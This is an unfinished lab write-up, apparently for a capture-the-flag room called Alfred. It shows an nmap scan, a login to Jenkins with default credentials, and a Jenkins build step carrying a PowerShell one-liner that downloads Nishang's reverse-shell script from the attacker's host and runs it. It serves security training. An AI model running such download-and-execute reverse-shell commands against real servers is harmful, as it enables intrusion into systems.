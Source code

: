 ***STILL IN THE WORKS!***


Room: Alfred

Difficulty:

Overview:

------------------------------------------------------------------------------------------------------------------------------------------------------------------

First we need to scan for all open ports using nmap, but since the machine doesn't respond to ping (ICMP) we need to adjust the scan:

```
nmap  -Pn -A -p- 10.10.101.250 -T4

-Pn   → Because the machine don't respond to ping
-A    → Enable OS detection, version detection, script scanning, and traceroute
-p-   → Scan all ports
-T4   → To speed the scan (this loses some accuracy), otherwise it would take more time to complete.
```

![Alfred_nmap_scan](https://user-images.githubusercontent.com/76821053/118020693-4ae2cd80-b352-11eb-8f5c-5e8250883d63.png)

The http at port 8080 hosted a jenkins server. We can try default credentials and this one was pretty simple.

![jenkins_8080](https://user-images.githubusercontent.com/76821053/118023732-c8f4a380-b355-11eb-8ea8-ee409d9ddc01.png)

We can created a new project inside Jenkins. At configurations we have a field called Build that let us do commands, so we can use the powershell command given by the room:

```
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
```

In my case i used the below command, where i change the ip and port to match my machine.

```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.11.23.202:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.11.23.202 -Port 9001
```

To breakdown this command we can tell that the first part of the command will download a file from a specific website or server, in this case from my kali machine and the 
second part of the command tells the windows machine to execute it in order for us to get a reverse shell.

For this command to work and get a reverse shell on our machine we need to setup a few things:

-- Download Nishang "Invoke-PowerShellTcp.ps1" payload script provided by the room. Nishang is a framework and collection of scripts and payloads which enables usage of PowerShell for offensive security.

-- A python SimpleHTTPServer in order to host the file to each the remote machine will try to donwload. We can do this by typing this command on a kali machine:

**python -m SimpleHTTPServer**

![pythonserver](https://user-images.githubusercontent.com/76821053/118032170-3fe26a00-b35f-11eb-919e-8483e5469701.png)

-- Start a netcat listener on the port we chose:

![nclistener](https://user-images.githubusercontent.com/76821053/118028995-9c438a80-b35b-11eb-8463-7b4c797b97d2.png)

After setting all up we just start a new project on jenkins server (in my case i called it admin), add the command to the build tab and just run it:   

![jenkinsproject](https://user-images.githubusercontent.com/76821053/118030688-88992380-b35d-11eb-89a6-74a434f02cb0.png)

We can see that the remote machine downloads the script and run it:

![pythonhttpserver](https://user-images.githubusercontent.com/76821053/118028046-85e8ff00-b35a-11eb-8d9c-32d510ae7b57.png)
